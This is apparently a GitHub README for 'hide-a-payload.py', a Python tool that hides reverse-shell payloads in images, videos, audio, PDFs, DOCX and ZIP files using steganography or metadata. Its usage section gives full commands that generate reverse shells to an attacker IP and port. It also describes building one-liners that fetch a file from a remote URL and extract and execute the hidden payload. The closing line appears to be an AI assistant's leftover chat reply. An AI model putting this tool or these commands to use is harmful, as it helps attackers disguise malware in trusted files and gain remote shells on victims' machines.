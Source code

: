 # Steganography Hidden Payload Injector By: Dogematti

This project allows you to dynamically inject payloads, such as reverse shells, into various media files using steganography techniques or metadata manipulation. It supports multiple media formats and provides an easy-to-use command-line interface for injecting and extracting payloads from files.

## Features
- **Dynamic Compatibility Check**: Ensures the media file is supported for payload injection.
- **Reverse Shell Payload Generation**: Dynamically generate reverse shell payloads by specifying an IP and port.
- **Steganography Injection**: Hide payloads within image files using steganography.
- **Metadata Injection**: Inject payloads into media files (e.g., images, videos, PDFs, DOCX, ZIP) using metadata fields.
- **Payload Extraction**: Extract payloads from supported media types.
- **Base64 Encoding**: Optionally encode payloads in Base64 for transport or obfuscation.
- **One-Liner Command Generation**: Create ready-to-use one-liners to extract and execute the hidden payload from a media file.

## Inspiration

This project is inspired by the ideas found in **rMETASHELL**, which provided the foundation and concept for dynamic payload injection and extraction using steganography and metadata manipulation. Thanks to **rMETASHELL** for the inspiration!

## Requirements

The following dependencies are required to run this project:

- **Python 3.x**
- **steghide** (for steganography-based injection)
- **exiftool** (for manipulating metadata in image files)
- **ffmpeg** and **ffprobe** (for handling media files such as mp4 and mp3)
- **unzip** (for extracting payloads from DOCX and ZIP files)

### Install external dependencies:

```bash
sudo apt-get install steghide exiftool ffmpeg unzip# Steganography-hidden-payload


Usage

Inject a Reverse Shell Payload into a PNG Image using Steganography:

python hide-a-payload.py -p reverse_shell -i 192.168.1.100 -r 4444 -f image.png -s

This command generates a reverse shell payload and hides it inside the image.png file using steganography.

Inject a Payload into Media File Metadata:

python hide-a-payload.py -p "Your custom payload here" -f video.mp4

This command injects a custom payload into the metadata of video.mp4.

Extract a Payload from a Media File:

python hide-a-payload.py -x -f image.png

This command extracts the payload hidden in the image.png file.
Generate a One-Liner for Payload Extraction:

python hide-a-payload.py -p reverse_shell -i 192.168.1.100 -r 4444 -f image.png -u http://example.com

You will be prompted to select the type of one-liner to generate for extracting and executing the payload.

Supported Media Types

The tool currently supports the following media formats for payload injection and extraction:

Images: PNG, JPG, JPEG

Videos: MP4

Audio: MP3

Documents: PDF, DOCX

Archives: ZIP


Command-Line Options

-p or --payload: Specify the payload type (e.g., reverse_shell or custom payload).

-i or --ip: IP address for reverse shell payload.

-r or --port: Port for reverse shell payload.

-f or --file: Specify the media file for payload injection or extraction.

-s or --steganography: Use steganography for payload injection.

-x or --extract: Extract payload from a media file.

-b or --base64: Base64 encode the generated payload.

-c or --check: Check if a media file is compatible for payload injection.


Example Usage:

Inject a Reverse Shell Payload into a PNG Image using Steganography

python hide-a-payload.py -p reverse_shell -i 192.168.1.100 -r 4444 -f image.png -s

Extract a Payload from a PNG Image

python hide-a-payload.py -x -f image.png

Generate a One-Liner for Reverse Shell Payload Extraction

python hide-a-payload.py -p reverse_shell -i 192.168.1.100 -r 4444 -f video.mp4 -u http://example.com

License

This project is licensed under the GNU GPlv3.

Acknowledgements

Special thanks to rMETASHELL for the idea and inspiration behind this project. Their work laid the foundation for this dynamic media-based payload injection and extraction tool.

This `README.md` should cover all aspects of your project, including installation, usage, and a special acknowledgment to **rMETASHELL** for the idea. Let me know if you need further tweaks!